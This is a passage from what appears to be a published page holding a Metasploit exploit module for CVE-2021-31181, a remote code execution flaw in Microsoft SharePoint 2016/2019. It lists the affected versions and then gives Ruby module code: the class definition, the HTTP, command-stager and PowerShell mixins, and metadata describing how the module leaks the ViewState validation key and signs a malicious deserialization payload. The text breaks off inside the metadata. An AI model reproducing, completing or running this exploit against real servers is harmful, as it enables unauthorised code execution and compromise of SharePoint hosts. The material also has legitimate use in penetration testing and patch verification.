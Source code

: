 <languages />

Affected Versions
-----------------

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::HTTP::Sharepoint
      include Msf::Exploit::CmdStager
      include Msf::Exploit::Powershell

      XML_NS = {
        'wpp' => 'http://microsoft.com/sharepoint/webpartpages',
        'soap' => 'http://www.w3.org/2003/05/soap-envelope',
        'xsi' => 'http://www.w3.org/2001/XMLSchema-instance',
        'xsd' => 'http://www.w3.org/2001/XMLSchema'
      }.freeze

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Microsoft SharePoint Unsafe Control and ViewState RCE',
            'Description' => %q{
              The EditingPageParser.VerifyControlOnSafeList method fails to properly validate user supplied data. This
              can be leveraged by an attacker to leak sensitive information in rendered-preview content. This module will
              leak the ViewState validation key and then use it to sign a crafted object that will trigger code execution
              when deserialized.

              Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.
            },
            'Author' => [
              'Unknown', # Reported to HP ZDI team, Vulnerability discovery
              'Spencer McIntyre', # Module
              'wvu' # Module
            ],
            'References' => [
              [ 'CVE', '2021-31181' ],
              [ 'ZDI', '21-573' ],
              [ 'URL', 'https://www.zerodayinitiative.com/blog/2021/6/1/cve-2021-31181-microsoft-sharepoint-webpart-interpretation-conflict-remote-code-execution-vulnerability' ]
            ],
            'DisclosureDate' => '2021-05-11',
            'License' => MSF_LICENSE,
            'Platform' => 'win',